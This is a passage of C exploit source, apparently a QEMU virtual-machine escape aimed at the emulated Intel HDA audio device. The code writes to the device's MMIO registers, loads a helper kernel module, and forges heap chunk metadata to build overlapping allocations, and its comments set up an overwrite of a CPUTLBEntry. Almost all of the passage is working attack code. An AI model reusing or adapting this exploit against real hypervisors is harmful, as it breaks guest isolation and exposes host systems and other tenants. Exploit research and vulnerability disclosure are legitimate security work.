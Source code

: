 ```c
        "add %0, %%rax\n\t" \
        "mov %%rax, %%rbx\n\t" \
    "1:\n\t" \
        "pause\n\t" \
        "rdtsc\n\t" \
        "shl $32, %%rdx\n\t" \
        "or %%rdx, %%rax\n\t" \
        "cmp %%rbx, %%rax\n\t" \
        "jb 1b" \
        : \
        : "r" (cycles) \
        : "rax", "rbx", "rdx" \
    ); \
}
void resize_CPUTLB() {
    uint64_t cycles = 0;
    invlpg();
    spin();
}

void hijack_CPUTLB() {
    mmio_write64(HDA_VA, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_DMA_START);
    invlpg();
}

int kfunc_fd = 0;
#define kfunc(addr) ioctl(kfunc_fd, 0x1337, addr)

int main() {
    system("sysctl -w vm.nr_hugepages=102400");
    system("sysctl -w vm.mmap_min_addr=0");
    system("insmod kfunc.ko");
    kfunc_fd = open("/dev/kfunc", O_RDWR);
    if (kfunc_fd < 0) {
        perror("open");
        exit(1);
    }

    hda_mmio_mem = mmio_init((void *)HDA_VA, 0xfebf0000, 0x2000);

    uint64_t data_pa = 0;
    data = mmap((void *)DATA_VA, HUGEPAGE_SZ, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_PRIVATE|MAP_ANON|MAP_HUGETLB|MAP_POPULATE, -1, 0);
    data_pa = gva_to_gpa((void *)data);
    printf("[*] data: %p\n", (void *)data);
    printf("[*] data_pa: %p\n", (void *)data_pa);

    for (size_t st = 0; st < 8; st++) {
        uint64_t addr = data_pa+0x2000*st;
        mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_BDLPL), addr&0xffffffff);
    }

    /* Step1: overlap */
    set64(1, 0xf8, 0x815);          // fake chunk2.size
    set64(5, 0xf8, 0x415);          // fake chunk6.size
    for (int st = 6; st >= 0; st--)
        parse_bdlp(st, 0x10-2);     // chunk size = 0x100
    set64(6, 0x400, 0x810);         // fake prev_size for chunk2
    set64(6, 0x408, 0xf5);          // fake next chunk size
    parse_bdlp(6, 0x41-2);          // free chunk6; alloc 0x410 chunk

    /* Step2: Overwrite CPUTLBEntry */
    // 2.1 create overlapped chunk for CPUTLB
```